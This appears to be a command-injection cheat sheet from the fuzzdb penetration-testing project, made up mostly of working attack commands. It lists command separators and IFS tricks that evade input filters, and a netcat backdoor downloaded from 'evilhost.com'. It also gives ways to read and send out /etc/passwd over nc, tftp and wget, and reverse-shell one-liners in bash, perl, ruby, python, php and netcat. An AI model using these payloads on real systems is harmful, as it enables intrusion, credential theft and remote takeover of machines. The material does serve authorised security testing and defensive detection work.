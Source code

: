 Remote Command Exec Cheatsheet

**Executing Commands**

Various ways of separating Commands:<br>
``` blah;blah2 ```

``` blah ^ blah 2```

```blah && blah2```

```FAIL || X```

``` blah%0Dblah2%0Dblah3 ```

``` `blah` ```

``` `blah & blah2` ```

**Shell commands without spaces**

Using Internal Field Separator (IFS):<br>
Test for cmd injection without spaces:<br>
``` sleep${IFS:0:1}20 ```<br>

Example IFS netcat backdoor without spaces:<br>
``` {wget,http://evilhost.com/nc} ```<br>
``` {chmod,+x,./nc} ```<br>
``` {./nc,-l,-p,6666,-e,/bin/bash} ```<br>

$IFS shell variable:<br>
``` cat$IFS/etc/passwd ```<br>
increment the first +1 to retreive the entire file, line by line<br>
``` cat$IFS/etc/passwd|tail$IFS-n+1|head$IFS-n+1 ```

Shell Variables:<br>
``` CMD=$'cat\x20/etc/passwd';$CMD ```

shell variable, increment through file one line at a time: <br>
increment the first +1 to retreive the entire file, line by line<br>
``` SP=$'\x20';cat$SP/etc/passwd|tail$SP-n+1|head$SP-n+1 ```

**Exfiltrating Files / Data**
FTP <br>
Make a new text file, and echo and then redirect to FTP

NC <br>
``` 'nc -e /bin/sh' ```

NC <br>
``` 'echo /etc/passwd  | nc host port' ```

TFTP <br>
``` 'echo put /etc/passwd | tftp host' ```

WGET: <br>
``` 'wget --post-file /etc/passwd' ```

**One-Liner Reverse Shells**
On the listener <br>
``` $ nc -l -p 8080 -vvv' ```

On the remote host...<br>
Bash:<br>
``` $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 ```

``` $ exec 5<>/dev/tcp/evil.com/8080 ```<br>
``` $ cat <&5 | while read line; do $line 2>&5 >&5; done ```

Perl<br>
```$ perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' ```

Ruby<br>
``` $ ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' ```

Python<br>
``` $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ```

PHP<br>
``` $ php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' ```
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)

Netcat<br>
``` $ nc -e /bin/sh 10.0.0.1 1234 ```

``` $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f ```


XTERM:<br>
Server: <br>
```$ xterm -display 10.0.0.1:1```
Listener:<br>
```$ Xnest :1```
```$ xhost +targetip```


<br>More docs: [/docs/attack-docs/remote-cmd-exfiltration/](https://github.com/fuzzdb-project/fuzzdb/tree/master/docs/attack-docs/remote-cmd-exfiltration)<br>
